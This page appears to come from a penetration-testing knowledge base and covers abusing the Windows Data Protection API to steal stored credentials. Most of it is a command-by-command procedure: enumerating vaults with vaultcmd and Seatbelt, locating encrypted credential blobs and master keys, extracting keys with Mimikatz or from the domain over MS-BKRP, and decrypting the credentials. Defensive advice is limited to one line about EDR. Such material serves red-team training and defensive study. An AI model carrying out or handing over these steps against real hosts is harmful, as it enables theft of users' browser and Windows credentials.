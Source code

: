 # Data Protection API Abuse
---

## Vulnerability

Windows hosts have 2 vaults storing encrypted credentials:
* Web Credentials (for browsers).
* Windows Credentials (for Windows services).

If you are local administrator of a Windows host, you can decrypt these credentials (also named "blobs").

## Prerequisites

* Local administrator rights on the targeted system.

## Exploit

First, enumerate the currently logged on user's vaults. You can do it manually with `vaultcmd` builtin or using [Seatbelt](https://github.com/GhostPack/Seatbelt).

```powershell
vaultcmd /list
vaultcmd /listcreds:"Web Credentials" /all
vaultcmd /listcreds:"Windows Credentials" /all

./Seatbelt.exe WindowsVault
```

Encrypted credentials are stored in `C:\Users\$username\AppData\Local\Microsoft\Credentials\`. List them manually, or using [Seatbelt](https://github.com/GhostPack/Seatbelt).

```powershell
ls $Env:LOCALAPPDATA\Microsoft\Credentials\

./Seatbelt.exe WindowsCredentialFiles
```

The advantage of using [Seatbelt](https://github.com/GhostPack/Seatbelt) is it gives the GUID of the key used to encrypt blobs. These keys are stored **encrypted** in `C:\Users\$username\AppData\Roaming\Microsoft\Protect\$sid\`.

```powershell
ls $Env:APPDATA\Microsoft\Protect\$sid\
```

So let's decrypt this key! It might be cached on the host so you can get it with [Mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
sekurlsa::dpapi
```

If it's not cached, you can - *kindly* - ask the domain via the Microsoft BackupKey Remote Protocol (MS-BKRP).

{: .important }
> You must do it as `$username` or it will fail, so impersonate him first.

```powershell
dpapi::masterkey /in:C:\Users\$username\AppData\Roaming\Microsoft\Protect\$sid\$keyGUID /rpc
```

Now you have the key decrypted, you can decrypt the corresponding blob.

```powershell
dpapi::cred /in:C:\Users\$username\AppData\Local\Microsoft\Credentials\$blob /masterkey:$key
```

## Recommendations

- [ ] Enforce EDR on hosts to prevent and detect usage of tools such as [Mimikatz](https://github.com/gentilkiwi/mimikatz).